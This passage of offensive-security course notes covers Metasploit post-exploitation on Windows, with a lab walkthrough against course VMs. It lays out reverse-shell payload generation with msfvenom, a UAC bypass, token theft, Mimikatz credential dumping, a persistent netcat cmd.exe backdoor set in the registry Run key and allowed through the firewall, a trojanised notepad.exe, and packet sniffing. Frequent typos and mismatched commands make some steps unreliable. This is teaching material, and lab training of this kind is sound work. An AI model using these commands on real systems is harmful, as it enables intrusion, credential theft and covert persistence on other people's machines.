  * A firewall may block incoming connections, but the author of that firewall's ruleset may not have created  identical rules for outgoing connections.

### Reverse and Bind Shells: Understanding the Target

* Often operators must understand the target exploited and navigate through applications that are capable of allowing or restricting traffic, such as Windows firewall(Windows targets) and iptables(LinuWUnix targets). Our focus for this section will be the Windows operating system:
* windows Firewall Commands (netsh)
  * **NOTE:** netsh firewall is deprecated on Windows 7, Server 2008 or newer

Command Purpose | Command (netsh firewall)
--- | ---
Firewall logs location | `%windir%\System32\Logfiles\Firewall\*`
Enable Firewall | `netsh firewall set opmode enable`
Show wireless interfaces | `netsh wlan show interfaces`
Show allowed inbound ports | `netsh firewall show portopening`
Show allowed programs | `netsh firewall show allowedprogram`
Show firewall configuration | `netsh firewall show config`
Shut down the firewall | `netsh firewall set opmode disable`
Show all profiles | `netsh advfirewall show allprofiles`
Turn off firewall | `netsh advfirewall set currentprofile state off`
Turn on firewall | `netsh advfirewall set currentprofile state on`
Open a port | `netsh firewall add portopening tcp 443 MyHttps`
Remove a portopening | `netsh firewall delete portopening tcp 443`
Disable ICMP | `netsh firewall set icmpsetting type-all`
Open port inbound | `netsh advfirewall firewall add rule UDP Port 137" dir-in action-allow protocol-UDP localport=137`
Open port Outbound | `netsh advfirewall firewall add rule name="NetBios UDP Port 137" dir=out action=allow protocol=UDP localport=137`

___

* Example: `netsh firewall show portopening`


* Example: `netsh advfirewall show allprofiles`


### Multi/Handler

* msf>use exploit/multi/handler
* msf>set payload \<path of payload>
* msf>set [host \<IP addr>
* msf>set Iport \<listening port>
* msf>exploit

### Privilege Escalation

* Credential Theft
  * Plain Text
    * _Keylogging_
  * Hashed Value
    * _hashdump_
* Process Migration
  * Target system level process
    * _migrate [pid]_

### CredentialTheft

* Incognito
  * Originally its own application is now integrated ith Meterpreter
  * Allows for token impresonation on compromised hosts
* list_tokens
  * View all tokens at or below your privilege level  
  
* steal_token
  * Used to target a token based on PID
  * To steal a token one must first identify a process owned by the desired user to impersonate
  * Then attempt to steal the token and verify
  
  * **Note!** If you previously had system privileges those will be replaced by the ones of the user chosen to impersonate
* getprivs
  * Attempts as much SYSTEM level privilege access as possible
  
* getsystem
  * Will attemp to obtain SYSTEM level privileges
* drop_token
  * Releases stolen token and returns session to previous privilege level
  

### Persistence

* Use built-in Windows options
  * Vulnerable services
  * Task scheduler
  * Modify the registry
* Metasploit provides a ruby script that works (sometimes)
  * _persistence.rb_
  * _run persistence -h_

### Persistence: Understanding your Target

Windows Folders used for Startup (Condensed List) |
--- |
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup` |
`C:\Users\<username>\AppData\Local\Microsoft\Windows\Sidebar\Settings.ini` |
`C:\Windows\System32\Tasks`|
`C:\Windows\Tasks`
___

Windows Registry AutoStart locations 32/64bit (Condensed List) |
--- |
`HKCU\Control Panel\Desktop\Scrnsave.exe` |
`HKCU\Software\Microsoft\Command Processor\Autorun` |
`HKCU\Software\Microsoft\lnternet Explorer\Desktop\Components` |
`HKCU\Software\Microsoft\lnternet Explorer\Extensions` |
`HKCU\Software\Microsoft\Windows\CurrentVersion\RunServiesOnce` |
`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit` |
`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell` |
`HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce` |
`HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx` |
`HKLM\Software\Microsoft\Windows\CurrentVersion\Run` |
___

### Additional Metasploit Scripts

* post/windows/...
  * For Windows there are multipe subcategories
    * **Post Capture** (Keylog_recorder)
    * **Post Gather** (arp_scanner, checkvm, credential collector, dumplinks, enum applications, enum logged on users, enum_shares, enum snmp, hashdump, usb history, local_exploit_suggester)
    * **Post Manage** (autoroute, delete user, migrate, multi meterpreter inject)
  * _This is only an excerpt from the multitude of scripts available_
* post/linux/...
  * **Post Gather**
    * checkvm
    * enum_configs
    * enum network
    * enum_protections
    * enum_system
    * enum_user_history
    * enum osx
  * _This is only an excerpt from the multitude of scripts available._
* Sniffer
  * Allows for packet sniffing the remote host
  * Never stored on targets hardware
  * Can be read using psnuffle, dsniff, wireshark and others
* Mimikatz
  * Script bundle for persistence and data exfiltration
  * Requires SYSTEM level privilege to use all of its features/functions
  * load mimikatz
  * mimikatz_command —f fu::

### Kiwi over Mimikatz

* kiwi
  * Kiwi is Mimikatz version 2!
  * It includes more "out-of-the-bof' functionality than Mimikatz version 1.
  * Offers one command to run all the others for credential gathering:
    * creds all
    * creds_wdigest
    * creds kerberos
    * creds msv
    * creds_tspkg
* Mimikatz 2.0 (Kiwi) most common special commands (kiwi_cmd)

Command | Purpose
--- | ---
CRYPTO::Certificates | List/export certificates
KERBEROS::Golden | Create golden/silver trust tickets
KERBEROS::List | List all user tickets (TGT and TGS) in user memory. No special privileges required since it only displays the current user's tickets. Similar to functionality of "klist".
DERBEROS::PPT | Pass The Ticket. Typically used to inject a stolen or forged Kerberos ticket (golden/silver/trust).
LSADUMP::DCSync | ask a DC to synchronize an object (get password data for account). No need to run conde on DC.
LSADUMP::LSA | Ask LSA Server to retrieve SAM/AD enterprise (normal, patch on the fly or inject). Use to dump all Active Directory domain credentials from a Domain Controller or lsass.dmp dump file. Also used to get specific account crdential such as krbtgt with the parameter /name: "/name:krbtgt"
LSADUMP::SAM | Get the SysKey to decrypte SAM entries (from registry or hive). The SAM option connect to the local security Account Manager (SAM) database and dumps credentials for local accounts. This is used to dump all local credentials on a Windows computer.
LSADUMP::Trust | Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fly). Dumps trust keys (passwords) for all associated trusts (domain/forest).
MISC::AddSid | Add to SIDHistory to user account. The first value is the target account and the second value is the account/group name(s) (or SID). Moved to SID:modify as of May 6th, 2016
MISC::MemSSP | Inject a malicious Windows SSP to log locally authenticated credentials.
MISC::Skeleton | Inject Skeleton Key into LSASS process on Domain Controller. This enables all user authentication to the Skeleton Key patched DC to use a "master password" (aka Skeleton Keys) as well as their usual password.
PRIVILEGE::Debug | Get debug rights (this or Local System rights is required for many Mimikatz commands).
SEKURLSA::Ekeys | List Kerberos encryption keys
SEKURLSA::Kerberos | List Kerberos credentials for all authenticated users (including services and computer account)
SEKURLSA::Krbtgt | Inject Skeleton Key into LSASS process on Domain Controller. This enables all user authentication to the Skeleton Key patched DC to use a "master password" (aka Skeleton Keys) as well as their usual password.
SEKURLSA::Pth | Pass- theHash and Over-Pass-the-Hash
SEKURLSA::Tickets | Lists all available Kerberos tickets for all recently authenticated users, including services running under the context of a user account and the local computer's AD computer account. Unlike kerberos::list, sekurlsa uses memory reading and is not subject to key export restrictions. sekurlsa can access tickets of others sessions (users).list Kerberos encryptio keys
TOKEN::List | List all tokens of a system
TOKEN::Elevate | Impersonate a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box
TOKEN::Elevate /domainadmin | Impersonate a token with Domain Admin credentials
___

### Lesson 5 Summary

* In this lesson we learned about:
  * Metasploit Venom
  * Reverse and Bind Shells
  * Privilege Escalation
  * Mimikatz & Kiwi Script Use

___

## Exercise - Module 2, Lesson 5 – Privilege Escalation

___

1. Using the Metasploit Venom payload generator and the 64-bit version of
the Meterpreter “reverse_tcp” payload, generate a custom, executable
payload for the Windows 10 VM using port 443. The payload should be
encoded through three iterations of “shikata_ga_nai”.
2. Name the new payload “totallynotavirus.exe” and save it in your viruses
folder. What command syntax was used?  
`msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp -e x64/xor LHOST=192.168.229.30 LPORT=443 -i 3-f exe -o totallynotavirus`
3. Create a listener on port 443 for the “reverse_tcp” payload using “exploit/multi/handler”. Ensure that the listener runs. Hint: from your current context, use the “msfconsole -x” command followed by your variables. What command syntax was used?  
`msfconsole -x "use exploit/multi/handler; use payload windows/x64/meterpreter_reverse_tcp; set LPORT 443; set LHOST 192.168.229.30; run`

### Walkthrough

1. mkdir ~/viruses
2. systemclt start apache2
3. Win10 -> Mitnick -> navigate to 192.168.229.30
4. msvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST==192.168.229.30 LPORT=443 -e x64/xor -i 3 -f exe -o ./viruses/totallynotaviruse.ext
5. cp ./viruses/totallynotaviruse.exe /var/www/html/totalynotaviruse.exe
6. msfconsole -x "use exploit/multi/handler; set payload windows/x64/reverse_tcp; set LHOST 192.168.229.30; set LPORT 443; run"
7. win10 - execute 192.168.229.30/totalynotaviruse.exe
8. meterrpeter > getuid
9. getpid -> look for explorer
10. migrate to `explorer PID`
11. background
12. use exploit/windows/local/bypassuac_injection_winsxs
13. set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.229.30
14. set LPORT 444
15. show targets
16. set target 1
17. set session 1
18. run
19. getuid
20. getsystem
21. getuid
22. netstat
23. load incognio
24. list_tokens -u
25. steal_token Administrator
26. impersonate_token Desktop-Name/Administrator
27. background
28. find / -name nc.exe
29. sessions 2
30. pwd
31. upload /usr/share/windows-biniaries/nc.exe
32. reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run\\ - v vmware -d "nc -lu dp 445 - e cmd.exe"
33. Enter a windows command shell and add a firewall rule named “backdoor” to allow inbound traffic on TCP port 445 for your persistent netcat connection. What command syntax was used? `shell -> netsh advfirewall firewall add rule name="Backdoor" dir=in action=allow protocol=UDP localport=445`
34. Reboot your Windows 10 VM, then return to your Kali VM and open a new terminal window. Connect to the Windows 10 netcat listener. What command syntax was used? `nc 192.168.229.19 -u 445 -> cmd`
35. What Windows 10 account is your shell running under? `whoami -> desktop\Administrator`
36. From your Meterpreter session, enable remote desktop protocol on the Windows 10 target. What command syntax was used? `run post/windows/manage/enable_rdp -> Run getgui -u <username> -p <password>`
37. In a new terminal window, connect to the Windows 10 target via remote desktop. What command syntax was used `rdesktop -u administrator -p P@ssw0rd 192.168.229.19`
38. reg setval -l hklm\\system\\currentcontrolset\\control\\'Termainal Server'\\winstations\rdp-cp -v UserAuthentication -d 0
39. Run the clean-up command to remove the remote desktop credentials you previously injected. Does your user still exist on the Windows 10 target? `run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up_<date>.rc`
40. Load the mimikatz extension and attempt to gather the single sign on credentials from the Windows 10 target. What module was used? ``
41. Using Meterpreter, download notepad.exe to your Kali VM. How large, in bytes, is notepad.exe on the Windows 10 VM? `file notepad.exe` `msvenom -a x64 - --platform=windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.229.30 LPORT=443 -x ./notepad.exe -k -e x64/xor -i 3 -f exe -o ./viruses/notepad.exe`
42. Prepare a listener on the Kali VM and from the Windows 10 VM open notepad. On your Kali VM, what account is your Meterpreter shell under? `getuid`
Escalate your privilege to system level and load the sniffer extension. `load sniffer`
43. Begin a packet capture on the Windows 10 target’s network interface that Meterpreter is using. What command syntax was used? `sniffer_start 5` -> `sniffer_stop 5` -> `sniffer_dump 5 123.pcap`
44. Check the statistics of the current packet capture. What two fields are shown?
45. Add a port forwarding rule that will move traffic directed to port 445 locally on the Kali VM to the Windows 10 VM. What command syntax was used? ``
46. Using a new terminal window, open a telnet connection to port 445 on your loopback address. What command shell are you currently in?
47. How many processes are currently running that could potentially tip off the Windows 10 user to your presence?
